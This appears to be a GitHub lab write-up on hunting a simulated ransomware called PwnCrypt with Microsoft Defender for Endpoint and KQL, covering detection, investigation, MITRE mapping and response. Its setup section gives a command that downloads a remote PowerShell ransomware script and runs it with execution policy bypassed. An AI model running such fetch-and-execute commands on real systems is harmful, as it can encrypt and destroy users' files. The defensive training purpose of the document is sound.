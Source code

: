 <p align="center">
  <a href="https://github.com/Samuel-Cavada" target="_blank">
    <img src="https://img.shields.io/badge/Back_to_Main_Page-000000?style=for-the-badge&logo=github&logoColor=white" alt="Back to Main Page"/>
  </a>
</p>

<h1 align="center">Scenario 4: New Zero-Day Announced on News</h1>

<p align="center">
  <img src="https://img.shields.io/badge/Platform-Azure-0078D4?style=for-the-badge&logo=microsoftazure&logoColor=white" alt="Cloud Platform" />
  <img src="https://img.shields.io/badge/OS-Windows%2010-0078D6?style=for-the-badge&logo=windows&logoColor=white" alt="OS" />
  <img src="https://img.shields.io/badge/Tool-Microsoft%20Defender%20for%20Endpoint-00B388?style=for-the-badge&logo=microsoftdefender&logoColor=white" alt="Tool" />
  <img src="https://img.shields.io/badge/Tool-PowerShell-2C5EA8?style=for-the-badge&logo=powershell&logoColor=white" alt="Tool" />
  <img src="https://img.shields.io/badge/Focus-Ransomware%20Detection-orange?style=for-the-badge" alt="Focus Area" />
</p>

---

## 📌 Project Objective
> Detect and investigate the presence of a newly announced zero-day ransomware named PwnCrypt, which uses PowerShell to encrypt files with a unique `.pwncrypt` extension. This scenario tests the ability to respond to an emerging threat using real-time telemetry.

---

## 🧰 Tools & Technologies
- **Platform:** Azure VM
- **OS:** Windows 10
- **Tools:** Microsoft Defender for Endpoint, PowerShell
- **Languages/Scripts:** PowerShell, KQL

---

## 🧠 Skills Gained / Focus Areas
- Detected ransomware IOCs based on file naming conventions
- Correlated ransomware execution with script activity
- Investigated file and process logs across relevant telemetry tables
- Mapped findings to MITRE ATT&CK techniques such as T1486

---

## 🧪 Environment Setup
> VM was onboarded to Microsoft Defender for Endpoint. A PowerShell-based ransomware simulation script was executed:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1'
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

> Ransomware encrypts files in `C:\Users\Public\Desktop`, renaming them with a `.pwncrypt` extension prefix.

---

## 🛠️ Walkthrough
1. [Step 1: Preparation](#step-1-preparation)
2. [Step 2: Data Collection](#step-2-data-collection)
3. [Step 3: Data Analysis](#step-3-data-analysis)
4. [Step 4: Investigation](#step-4-investigation)
5. [Step 5: Response](#step-5-response)
6. [Step 6: Documentation](#step-6-documentation)
7. [Step 7: Improvement](#step-7-improvement)

---

### ✅ Step 1: Preparation
> Hypothesis: The PwnCrypt ransomware may have already affected devices in the network. Initial indicators include file extensions containing `.pwncrypt` and PowerShell-based encryption activity.

---

### ✅ Step 2: Data Collection
> Collected logs from:
- `DeviceFileEvents`
- `DeviceProcessEvents`

> Focused on device: `windows-target-1`

---

### ✅ Step 3: Data Analysis
> Identified ransomware behavior by filename:
```kql
let VMName = "windows-target-1";
DeviceFileEvents
| where DeviceName == VMName
| where FileName contains ".pwncrypt"
| order by Timestamp desc
```

> Correlated with process logs:
```kql
let specificTime = datetime(2024-10-16T05:24:46.8334943Z);
DeviceProcessEvents
| where DeviceName == "windows-target-1"
| where Timestamp between ((specificTime - 3m) .. (specificTime + 3m))
| order by Timestamp desc
```

---

### ✅ Step 4: Investigation
> Identified PowerShell script execution that launched ransomware logic  
> Process tree showed activity aligning with `pwncrypt.ps1`  
> IoCs confirmed ransomware was active on `windows-target-1`

> TTP match:  
- **T1486** – Data Encrypted for Impact  
- **T1059.001** – PowerShell

---

### ✅ Step 5: Response
> - Isolated infected device  
> - Collected and reviewed investigation package from MDE  
> - Recommended removal of `pwncrypt.ps1` and all encrypted files  
> - Notified SOC team and updated SIEM rules

---

### ✅ Step 6: Documentation
> - Identified ransomware by `.pwncrypt` IoC  
> - Traced execution to downloaded PowerShell payload  
> - Logged findings, exact timestamps, and event types for review  
> - Included relevant KQL queries in incident report

---

### ✅ Step 7: Improvement
> - Enforced application control to block unauthorized scripts  
> - Enabled ASR rules to restrict PowerShell access  
> - Recommended security awareness training for all staff  
> - Created automated detection query for `.pwncrypt`-style filenames

---

## 📝 Timeline Summary and Findings
- PowerShell script executed at: `2024-10-16T05:24:46Z`  
- Encrypted files appeared in Public Desktop with `.pwncrypt` extension  
- Ransomware activity confirmed via process and file telemetry  
- Incident contained and reported

---

## 📎 References
- [T1486 – Data Encrypted for Impact (MITRE)](https://attack.mitre.org/techniques/T1486/)
- [T1059.001 – PowerShell Execution (MITRE)](https://attack.mitre.org/techniques/T1059/001/)
- [Microsoft Defender Threat Hunting Guide](https://learn.microsoft.com/en-us/microsoft-365/security/defender/advanced-hunting-overview)
